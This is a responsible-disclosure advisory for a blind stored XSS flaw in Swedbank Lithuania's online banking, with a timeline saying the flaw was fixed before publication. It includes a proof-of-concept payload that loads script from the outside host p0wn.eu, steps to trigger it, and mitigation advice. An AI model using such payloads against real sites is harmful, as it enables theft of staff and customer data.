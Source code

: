 Blind Stored Cross-Site-Scripting (XSS) in Swedbank Retail Banking
==================================================================

Description
-----------
Regular authenticated internet banking users can include arbitrary input within bank’s account name. 
This makes internet banking application hosted at https://www.swedbank.lt/private vulnerable to a blind Stored Cross-Site-Scripting attack (XSS). 

A malicious actor would first place arbitrary javascript payload within their bank account name. 
Once it is accessed by another party - for example banking personnel, call centre staff etc. attacker-controlled javascript code would be executed within the context of the victim browser.
This could then be used to both leak confidential information and perform escalation of privillege attacks.

Proof-of-Concept
----------------

Authenticate to the web application and open the bank’s account setting page at:
https://www.swedbank.lt/private/home/important/aliases

Include following javascript code within your bank account name and save changes:
```
A<script src=“//p0wn.eu”></script>
```
![Setting XSS payload](https://i.imgur.com/ITOX13M.png)


*Note* To make an isolated check from external network a simple trick can be used:
Point domain used within payload to the IP address you control and save the entry within system’s `hosts` file. Then host any JS payload on the HTTPS web server.

Next a user (a victim) must visit the following page from the main menu:
```
1. Privatiems ▸
2. Kasdienės paslaugos ▸
3. Apžvalga
```

(English)
```
1. Private ▸
2. Everyday banking ▸
3. My finances
```
Reference url: 
https://www.swedbank.lt/private/d2d/accounts/overview

Or in mobile application goto
```
1. Paslaugos ▸
2. Kitos paslaugos ▸
3. Mano finansų apžvalga
```

(English)
```
1. Services ▸
2. Other services ▸ 
3. Summary of my finances
```

Then the payload is executed (pictures included).
Desktop:
![Stored XSS attack](https://i.imgur.com/QRLirjN.png)

Mobile:
![Stored XSS attack on mobile app](https://i.imgur.com/4bezvvo.jpeg)

Unfiltered user input and failure to sanitize output in the web content leads to high security incidents since an attacker can invoke and launch various JS scripts or JS frameworks like BeEF (The Browser Exploitation Framework https://beefproject.com/) in the context of a user or other system’s users (banking personnel, call center staff etc.) browser.

Payload of the server's `p0wn.eu` content:
```
HTTP/1.1 200 OK
Server: Apache
Accept-Ranges: bytes
Content-Length: 23
Connection: close
Content-Type: application/javascript

alert(document.domain);
```
Mitigation
----------
Do a proper HTML Sanitisation for user input and page rendering afterwards.

Reference
---------
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html


TIMELINE
--------
```
2023-10-15 DISCOVERED VULNERABILITY
2023-10-16 A REPORT CREATED AND SENT TO responsible-disclosure@swedbank.com
2023-10-16 AUTOREPLY RECIEVED
2023-12-14 CONTACTED OVER LinkedIn (Head of Offensive Cyber Security at Swedbank)
2023-12-14 REPLY RECEIVED
2023-12-14 RECEIVED CONFIRMATION THAT ISSUE WAS RESOLVED
2024-01-01 PUBLIC RELEASE
```
